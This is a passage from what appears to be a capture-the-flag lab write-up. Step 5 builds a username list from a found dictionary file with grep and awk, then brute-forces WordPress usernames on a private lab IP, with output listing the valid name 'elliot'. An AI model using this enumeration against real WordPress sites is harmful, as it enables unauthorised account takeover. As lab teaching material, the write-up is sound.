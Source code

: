 ![writeup.enumeration.steps.4.1](./screenshot03.png)  

5\. After trying a few credentials manually, we decide to bruteforce usernames first. We first need to create a usernames list from the `fsocity.dic` dictionary found earlier. For our case, we will filter on strings that are 4-8 chars long. Doing this, we eventually find 5247 possible candidates. We then bruteforce these strings and find a valid username:  
``` {.python .numberLines}
grep -E '^[a-zA-Z]' fsocity.dic | sort -u |  awk 'length($1) <=8 && length($1) >= 4 { print $1}' > users
wpuser http://192.168.92.134/ users
  Found valid username: elliot
  Found valid username: Elliot
  Found valid username: ELLIOT

```

![writeup.enumeration.steps.5.1](./screenshot04.png)  
